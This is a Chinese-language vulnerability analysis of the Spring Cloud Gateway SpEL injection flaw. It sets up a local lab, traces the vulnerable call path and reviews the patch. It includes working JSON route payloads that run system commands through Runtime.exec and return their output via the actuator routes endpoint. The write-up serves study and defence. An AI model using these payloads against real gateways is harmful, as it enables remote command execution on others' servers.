# 漏洞影响范围

Spring Cloud Gateway 3.1.x < 3.1.1

Spring Cloud Gateway 3.0.x < 3.0.7

# 环境搭建

- Spring Boot 2.5.2
- Spring Cloud 2020.0.3
- 其中Spring Cloud Gateway 为 3.0.3

创建一个maven项目

pom.xml添加如下代码

```
<parent>
	<groupId>org.springframework.boot</groupId>
	<artifactId>spring-boot-starter-parent</artifactId>
	<version>2.5.2</version>
</parent>
<dependencyManagement>
	<dependencies>
		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-dependencies</artifactId>
			<version>2020.0.3</version>
			<type>pom</type>
			<scope>import</scope>
		</dependency>
	</dependencies>
</dependencyManagement>

<dependencies>
	<dependency>
		<groupId>org.springframework.cloud</groupId>
		<artifactId>spring-cloud-starter-gateway</artifactId>
	</dependency>
	<dependency>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-actuator</artifactId>
	</dependency>
</dependencies>

<build>
	<finalName>gateway</finalName>
	<plugins>
		<plugin>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-maven-plugin</artifactId>
		</plugin>
		<plugin>
			<groupId>org.apache.maven.plugins</groupId>
			<artifactId>maven-compiler-plugin</artifactId>
			<configuration>
				<source>1.8</source>
				<target>1.8</target>
			</configuration>
		</plugin>
	</plugins>
</build>

```

创建一个application.yml

```
server:
  port: 8081

management:
  endpoints:
    web:
      exposure:
        include: gateway
  endpoint:
    gateway:
      enabled: true

spring:
  cloud:
    gateway:
      routes:
        - id: baidu
          uri: 'https://www.baidu.com/' # 访问/skip/baidu 时路由到百度首页
          order: 8000
          predicates:
            - Path=/skip/baidu
          filters:
            - StripPrefix=2
```

创建一个启动类，这里就不用再去添加Controller了，

```
package Controller;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

import java.io.IOException;

@SpringBootApplication
public class AppBootstrap {
    public static void main(String[] args) throws IOException {
        SpringApplication.run(AppBootstrap.class, args);
    }
}
```

访问`127.0.0.1:8081/skip/baidu`可以访问到百度首页面，即搭建成功

# 漏洞复现

查看当前路由

```
http://localhost:8081/actuator/gateway/routes
```



构造一个包含恶意请求的路由

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(java.lang.Runtime).getRuntime().exec('calc')}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

uri这里可以随便填写

刷新网关路由

```
http://localhost:8081/actuator/gateway/refresh
```

但是这里要用POST方法去发包才能触发



另外一种形式的payload

```
{
  "id": "hacktest",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"calc\"}).getInputStream()))}"}
  }],
  "uri": "http://example.com"
}
```

# 漏洞分析

漏洞的触发点在**org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue**



这里可以明显看到Spel的API，当entryValue可控的时候，可以去解析我们恶意的Spel表达式

可以看到大致的调用栈



上一步是在normalize函数的for循环中



这里通过迭代器访问传入的args参数，通过调用栈看到是normalizeProperties进行的调用，跟进一下



可以看到传入的第一个参数是this.properties,看看这个值是怎么来的



通过这个properties方法可以对其进行赋值，看师傅们的文章发现在这个loadGatewayFilters对这里进行了调用



这是一个`filter`与`predicate`加载的地方，获取了路由里面的args参数

再调用栈可以看到一个convertToRoute方法，这里的调用是通过RouteDefinitionRouteLocator#getRoutes来调用的



这里就可以通过refresh去触发，看他的控制器就知道了为什么在我们复现的时候要通过POST方式去触发



跟进publishEvent



跟进multicastEvent



跟进invokeListener



跟进doInvokeListener



跟进onApplicationEvent



调用了this.fetch()，跟进一下



这里调用了CompositeRouteLocator的getRoutes方法，跟进一下


然后看到来到了刚才的getRoutes方法

所以这里漏洞形成的大致思路就是，Spring Cloud Gateway可以自己添加一个恶意路由，在通过访问/actuator/gateway/refresh来刷新路由，然后是添加的路由生效，调用了getRoutes方法，因为添加的路由带有filter或者predicates的恶意args参数，让对应的`properties`赋值，可以对Spel解析的表达式进行控制，从而导致了Spel表达式注入

其实在GatewayControllerEndpoint.class中可以看到


通过get访问新添加的路由也可以直接调用getRoutes而且会显示路由信息，那不就可以显示Spel表达式执行后的值了吗？但是也需要提前refresh刷新路由，不过这样有另外的作用，如果构建的是命令回显的payload，可以直接访问得到回显结果

# 命令回显复现

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

主要还是构造命令回显的payload

接下来通过refresh刷新一下路由

再访问`http://localhost:8081/actuator/gateway/routes/test`检索路由信息



这里如果检索的时候报错了，可以访问`http://localhost:8081/actuator/gateway/routes`来得到全部路由的值



# 补丁分析

```
if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
    // 修复前
    StandardEvaluationContext context = new StandardEvaluationContext();
    // 修复后
    GatewayEvaluationContext context = new GatewayEvaluationContext(new BeanFactoryResolver(beanFactory));
    // ...
}
```

当使用`StandardEvaluationContext`时`SPEL`允许执行恶意代码例如`T(java.lang.Runtime).getRuntime()`

该`context`的方法都是基于`delegate`对象的，注意到这是`SimpleEvaluationContext`

```
class GatewayEvaluationContext implements EvaluationContext {
    private SimpleEvaluationContext delegate = SimpleEvaluationContext.forReadOnlyDataBinding().build();
    // ...
}
```

使用`SimpleEvaluationContext`时`SpEL`无法调用`Java`类对象或引用`bean`

但是网上又有师傅发现了使用`SimpleEvaluationContext`可以造成一个拒绝服务漏洞

# 后记

这次的漏洞如果想彻底的弄清楚的话，需要去翻阅一些官方文档，对Spring Cloud Gateway有一定的了解，比如他怎么添加一个路由，还有一些函数的用途，现在也只是对整个调用流程有了一定的了解做了一个梳理，对一些比较深入的代码并没有怎么去了解了


参考链接

https://xz.aliyun.com/t/11004#toc-5

https://xz.aliyun.com/t/11044#toc-7

https://xz.aliyun.com/t/11114

https://zhuanlan.zhihu.com/p/475463244

https://blog.csdn.net/weixin_44112065/article/details/123951293

https://cn-sec.com/archives/857069.html
